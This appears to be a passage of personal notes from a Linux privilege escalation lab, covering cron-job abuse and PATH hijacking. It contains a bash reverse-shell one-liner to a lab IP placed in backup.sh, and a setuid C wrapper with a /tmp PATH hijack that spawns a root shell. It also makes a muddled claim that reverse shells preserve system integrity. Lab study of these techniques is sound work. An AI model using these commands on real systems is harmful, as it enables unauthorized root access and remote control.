 ```bash
cat /etc/crontab
```

We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.

```bash
cat backup.sh

#!/bin/bash

bash -i >& /dev/tcp/10.17.39.185/6666 0>&1

```
-----------------------------------------------------------------

**Privilege Escalation: PATH**

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script.

```bash
echo $PATH
```

1.	What folders are located under $PATH
2.	Does your current user have write privileges for any of these folders?
3.	Can you modify $PATH?
4.	Is there a script/application you can start that will be affected by this vulnerability?

script like

```bash
#include<unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("thm");
}
```

```bash
gcc path_exp.c -o path -w
chmod +s path
```

```bash
find / -writable 2>/dev/null
```

we have tmp folder here as writable, suppose

```bash
export PATH=/tmp:$PATH
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```
